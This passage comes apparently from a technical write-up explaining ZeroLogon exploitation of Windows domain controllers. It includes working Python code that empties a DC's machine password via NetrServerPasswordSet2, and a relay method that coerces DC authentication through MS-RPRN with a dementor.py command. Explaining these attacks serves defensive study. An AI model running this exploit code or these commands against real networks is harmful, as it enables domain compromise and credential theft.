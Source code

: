- **Lines 53-64**: Once the SChannel has been established between the attacker and the DC, we send a `NetrServerPasswordSet2` request with the following information:

* DC name
* SChannel type
* A [NETLOGON_AUTHENTICATOR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/76c93227-942a-4687-ab9d-9d972ffabdab) structure containing authentication information
* A new empty password

```py
def exploit(dc_handle, rpc_con, target_computer):
    request = nrpc.NetrServerPasswordSet2()
    request['PrimaryName'] = dc_handle + '\x00'
    request['AccountName'] = target_computer + '$\x00'
    request['SecureChannelType'] = nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel
    authenticator = nrpc.NETLOGON_AUTHENTICATOR()
    authenticator['Credential'] = b'\x00' * 8
    authenticator['Timestamp'] = 0
    request['Authenticator'] = authenticator
    request['ComputerName'] = target_computer + '\x00'
    request['ClearNewPassword'] = b'\x00' * 516
    return rpc_con.request(request)
```

## Method 2 - Authentication relay technique

There is [an alternative way found by dirkjanm](https://dirkjanm.io/a-different-way-of-abusing-zerologon/) to exploit ZeroLogon that does not entail the risks presented in the 1st method. However, this method requires a domain account and 2 DCs. The principle consists in forcing authentication from one DC to our attacking machine, then relaying it to the second DC, which is vulnerable to ZeroLogon.

- **1 & 2**: Coerce an authentication of the DC1 machine account that has DCSync rights on DC2 by abusing the RPC call RFFPCNEX ([RpcRemoteFindFirstPrinterChangeNotificationEx](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d)) of the [MS-RPRN](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) protocol:

```c
DWORD RpcRemoteFindFirstPrinterChangeNotificationEx(
  [in] PRINTER_HANDLE hPrinter,
  [in] DWORD fdwFlags,
  [in] DWORD fdwOptions,
  [in, string, unique] wchar_t* pszLocalMachine,
  [in] DWORD dwPrinterLocal, // <=================== Path UNC vers la machine attaquante
  [in, unique] RPC_V2_NOTIFY_OPTIONS* pOptions
);
```

```py
❯ dementor.py -d $domain -u $user -p $password $attacker_ip $domain_controller_1
```

- **3 & 4**: Relay this forced authentication to exploit ZeroLogon on the DC2 by doing a DCSync without changing the password:
